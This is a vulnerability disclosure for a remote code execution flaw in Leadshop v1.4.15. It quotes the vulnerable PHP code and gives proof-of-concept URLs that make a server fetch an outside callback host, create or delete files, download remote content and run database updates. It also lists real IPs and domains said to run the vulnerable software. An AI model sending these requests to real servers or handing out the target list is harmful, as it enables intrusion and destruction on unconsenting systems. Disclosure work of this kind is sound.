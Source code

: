 There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```  
 public function run()  
    {  
        //读取参数数据  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        //执行数据方法  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
        } else {  
            //用于判断是否非法操作  
            $token = isset($_GET['token']) ? $_GET['token'] : "";  
            $html  = get_oss_url('index.html');  
            //判断锁文件是否存在，存在则是要执行更新  
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {  
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {  
                    if (!isset($_SESSION['self_update'])) {  
                        //执行更新自身  
                        $this->SilentSelfUpdate();  
                    }  
                    //执行更新操作  
                    $version = get_version();  
                    $body    = $this->DownloadFile($html);  
                    echo str_replace('{$version}', $version, $body);  
                } else {  
                    die("检测到非法Token，请登录后台进入更新界面");  
                }  
            } else {  
                $version = get_version();  
                $body    = $this->DownloadFile($html);  
                echo str_replace('{$version}', $version, $body);  
            }  
        }  

    }  
```
The ```call_user_func_array``` function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: ```https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn```),  
ToMkdir (Create a file with content 1 and file name 1: poc: ```https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1&data=1```),  
UpdateSql (perform database update: poc: ```https://demo.leadshop.vip/leadshop.php?include=UpdateSql```),  
DownloadFile (download file: poc: 
```https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png```),  
RemoveDir (remove directory: poc: 
```https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]```)  
-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:
![img](DNSLog.png)  
-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.  
Access may make the server a dos server.  
Download, so that an attacker can download the PHP Trojan to the server.  
Creating and deleting will destroy normal services.  
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").  
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```
-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509